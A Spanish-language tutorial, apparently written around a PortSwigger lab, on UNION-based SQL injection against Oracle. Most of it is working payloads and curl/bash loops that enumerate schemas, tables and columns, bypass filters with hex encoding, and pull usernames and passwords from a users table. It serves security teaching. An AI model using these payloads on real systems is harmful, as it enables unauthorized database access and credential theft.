


---
# Guía práctica: SQL Injection para enumeración en Oracle

---

## Laboratorio Portswigger

Para ilustrar con ejemplos realistas vamos a seguir el laboratorio gratuito de Portswigger.

Todas las pruebas se realizaron en la URL (ejemplo):

```ini
https://web-security-academy.net/filter?category=Product
```

---

## Confirmación de la vulnerabilidad

**Acción:**

Comprobamos que el parámetro vulnerable aceptaría una cláusula `UNION` (en Oracle la sintaxis de `UNION` es la misma en esencia, pero debemos ajustarnos al número y tipo de columnas y a las funciones que usemos):

```sql
' UNION SELECT NULL, 'A' FROM DUAL--
```

**Explicación:**

Si la inyección tiene éxito, la página mostrará los valores `1` y `A` en la tabla de la aplicación. Esto confirma que:

- La aplicación concatena directamente el valor en una consulta SQL.
    
- El número de columnas es 2 y hay que respetar tipos (por ejemplo, si la columna expuesta espera texto, devolver `1` solo podría fallar).
    
- Podemos continuar con otras inyecciones más complejas adaptadas a Oracle.
    

> Nota: en Oracle muchas consultas de prueba se realizan seleccionando desde la tabla dummy `DUAL` cuando necesitamos una fila constante.

---

## Obtener versión de Oracle

En Oracle la información de versión suele obtenerse desde `v$version` o `product_component_version`. Un ejemplo simple (que devolviera una fila) sería:

```sql
' UNION SELECT 1, (SELECT banner FROM v$version WHERE ROWNUM = 1) FROM DUAL--
```

**Explicación:** `v$version` contiene líneas con la versión del motor Oracle; seleccionamos la primera fila con `ROWNUM = 1`. Dependiendo de permisos, `v$version` puede o no estar accesible.


---

## Concepto importante: bases de datos vs. esquemas en Oracle

Oracle no gestiona múltiples _bases de datos_ como MySQL/Postgres en el mismo servidor; en Oracle cada instancia tiene _schemas_ (que coinciden con usuarios). Por eso, donde en Postgres listaríamos bases de datos, en Oracle listaremos usuarios/schemas.

### Listar schemas (usuarios)

```sql
' UNION SELECT 1, (SELECT username FROM all_users WHERE ROWNUM = 1) FROM DUAL--
```


O para listar varios esquemas iterando/obteniendo uno por uno (ver apartado sobre paginación):

```sql
' UNION SELECT 1, username FROM all_users--
```



**Explicación:** `ALL_USERS` contiene los usuarios/schemas de la instancia; si no tenemos privilegios para ver todo, `USER_USERS` o prefijos similares pueden variar. `ALL_USERS` suele ser útil para enumeración de schemas visibles.


---

## Paginación / LIMIT equivalente

Oracle histórico no soporta `LIMIT`. Opciones según versión:

- Oracle 12c+: podemos usar `OFFSET <n> ROWS FETCH NEXT <m> ROWS ONLY`.
    
- Versiones clásicas: usamos `ROWNUM` o `ROW_NUMBER()` sobre una subconsulta.
    

Usamos `ROW_NUMBER()` en una subconsulta ordenada:

**Payload (texto) — para obtener, por ejemplo, la fila con rn = 1:**

```bash
' UNION SELECT NULL, (SELECT username FROM (SELECT username, ROW_NUMBER() OVER (ORDER BY username) rn FROM all_users) WHERE rn = 1) FROM DUAL-- -
```


**Explicación:** `ROW_NUMBER()` nos permite filtrar por número de fila sin depender de `OFFSET/FETCH`.


---

## Agregación de varias filas en una sola (equivalente a `GROUP_CONCAT`)

En Oracle la función equivalente para concatenar valores de múltiples filas es `LISTAGG`.

```sql
' UNION SELECT 1, (SELECT LISTAGG(table_name, ',') WITHIN GROUP (ORDER BY table_name) FROM all_tables WHERE owner = 'APP_SCHEMA') FROM DUAL--
```

**Explicación:** `LISTAGG(col, ',') WITHIN GROUP (ORDER BY col)` concatena valores de varias filas en una sola cadena. Si la lista es muy larga puede truncarse; en Oracle 12c+ existen otras técnicas (CLOBs, `XMLAGG`) para esquemas grandes.


---

## `curl` (adaptación de ejemplos)

A continuación mostramos cómo adaptar los ejemplos de `curl` para Oracle. La estructura de la URL sigue siendo la misma; lo que cambia es la forma de paginar o de obtener una sola fila.

### 1. Diferencia clave

En Oracle sustituimos `LIMIT x OFFSET y` por `OFFSET y ROWS FETCH NEXT x ROWS ONLY` (si la versión lo soporta) o por filtros con `ROWNUM` o `ROW_NUMBER()`.

### 2. Un `curl` simple (obtener una fila concreta)

Si queremos pedir la primera tabla del listado (offset 0) usando una inyección `UNION` que devuelve 2 columnas (por ejemplo `1, table_name`) y asumimos Oracle 12c+:

```bash
curl -s -G --data-urlencode "category=' UNION SELECT 1, table_name FROM all_tables OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY -- " "https://DOMINIO/filter"
```

Si no tenemos `OFFSET/FETCH`, usamos `ROWNUM = 1` en una subconsulta:

```bash
curl -s -G --data-urlencode "category=' UNION SELECT 1, (SELECT table_name FROM (SELECT table_name FROM all_tables WHERE owner='APP_SCHEMA') WHERE ROWNUM = 1) FROM DUAL -- " "https://DOMINIO/filter"
```

> Nota: usamos `--get --data-urlencode` para evitar problemas con espacios y caracteres especiales en la shell.

### 3. Procesar la salida (filtrar la celda HTML)

Si la página devuelve la tabla dentro de `<td>` y queremos extraer solo el texto:

```bash
curl -s -G --data-urlencode "category=<PAYLOAD>" "https://DOMINIO/filter" | grep "<td>" | html2text
```

### 4. Bucle para enumerar (ejemplo con OFFSET/FETCH)

Si la instancia soporta `OFFSET/FETCH` podemos iterar con incrementos:

```bash
for i in $(seq 0 99); do
  q="Products' UNION SELECT 1, table_name FROM all_tables OFFSET $i ROWS FETCH NEXT 1 ROWS ONLY -- "
  res=$(curl -s --get --data-urlencode "category=$q" "https://web-security-academy.net/filter" | grep '<td>' | html2text)
  echo "[+] Para el nº $i: $res"
done
```

Si no hay `OFFSET/FETCH`, usaremos una subconsulta con `ROWNUM`/`ROW_NUMBER()` y construiremos payloads que filtren por rango de fila.


---

## Listar tablas de un schema (owner)

### 1) Payload básico (si la columna izquierda es numérica)

```sql
' UNION SELECT 1, table_name FROM all_tables WHERE owner = 'APP_SCHEMA'--
```

### 2) Payload seguro si no sabemos el tipo de la primera columna (usar `NULL` para rellenar)

```sql
' UNION SELECT NULL, table_name FROM all_tables WHERE owner = 'APP_SCHEMA' --
```

### 3) Iterar (ej.: segunda fila) — con `ROWNUM` en subconsulta

```sql
' UNION SELECT NULL, (SELECT table_name FROM (SELECT table_name FROM all_tables WHERE owner = 'APP_SCHEMA') WHERE ROWNUM = 2) FROM DUAL--
```

### 4) Concatenar todas las tablas del esquema (equivalente a `GROUP_CONCAT`)

```sql
' UNION SELECT NULL, (SELECT LISTAGG(table_name, ',') WITHIN GROUP (ORDER BY table_name) FROM all_tables WHERE owner = 'APP_SCHEMA') FROM DUAL--
```

**Explicación:** `ALL_TABLES` lista las tablas accesibles; `OWNER` es el schema (user) que posee la tabla. Si queremos solo las tablas del usuario conectado, `USER_TABLES` puede ser suficiente.


---

## Cadenas en hexadecimal (equivalente a `convert_from(decode(...))` en Postgres)

Si no podemos introducir ciertas cadenas directamente (por ejemplo `APP_SCHEMA`), en Oracle podemos convertir hex a texto usando `HEXTORAW` y `UTL_RAW.CAST_TO_VARCHAR2`:

```sql
UTL_RAW.CAST_TO_VARCHAR2(HEXTORAW('7075626c6963'))
```

Ejemplo en un payload:

```sql
' UNION SELECT NULL, table_name FROM all_tables WHERE owner = UTL_RAW.CAST_TO_VARCHAR2(HEXTORAW('4150505f534348454d41'))--
```

Donde `'4150505f534348454d41'` es el hex de `APP_SCHEMA`.

**Explicación:** `HEXTORAW` convierte una cadena hex en RAW; `UTL_RAW.CAST_TO_VARCHAR2` convierte RAW a `VARCHAR2`. En Oracle esto suele requerir que el servidor tenga habilitado `UTL_RAW` (estándar) y que la codificación coincida.


---

## Listar columnas de una tabla

```sql
' UNION SELECT 1, column_name FROM all_tab_columns WHERE table_name = 'NOMBRE_TABLA' AND owner = 'APP_SCHEMA'--
```

**Explicación:** `ALL_TAB_COLUMNS` o `USER_TAB_COLUMNS` contienen la información de columnas. `table_name` en Oracle suele almacenarse en mayúsculas por defecto si se creó sin comillas, por lo que puede ser necesario normalizar a mayúsculas en el filtro.


---

## Extraer usuarios de una tabla `users` de la aplicación

Si la aplicación tiene una tabla `users` propia:

```sql
' UNION SELECT username, password FROM users--
```

**Explicación:** Esto asume que existe una tabla de aplicación `users` con columnas `username` y `password`. Si la primera columna no admite texto, usar `NULL, username || ':' || password` o ajustar tipos según sea necesario. Para bases de datos Oracle, concatenamos con `||` y podemos convertir tipos si es necesario.

---

## Usuario conectado a la actual base de datos

```sql
' UNION SELECT NULL, USER FROM DUAL-- -
```




---

## Tablas del schema

```sql
' UNION SELECT NULL, (SELECT LISTAGG(table_name, ',') WITHIN GROUP (ORDER BY table_name) 
FROM all_tables WHERE owner = 'PETER') FROM DUAL-- -

```


---

## Consideraciones y buenas prácticas pedagógicas

- En Oracle debemos prestar especial atención a:
    
    - Tipos de columnas: Oracle es más estricto en algunas situaciones (VARCHAR2 vs NUMBER).
        
    - Mayúsculas en nombres de objetos: muchos metadatos aparecen en mayúsculas.
        
    - Privilegios: ciertas vistas (`V$*`) requieren privilegios especiales.
        
    - Funciones específicas: `LISTAGG`, `ROWNUM`, `ROW_NUMBER()`, `HEXTORAW`, `UTL_RAW` son herramientas Oracle comunes para enumeración.
        
    
- Para automatizar enumeración en Oracle conviene probar ambas técnicas de paginación (`ROWNUM` y `OFFSET/FETCH`) y tener plantillas que manejen la conversión de hex cuando la entrada está filtrada.
    

---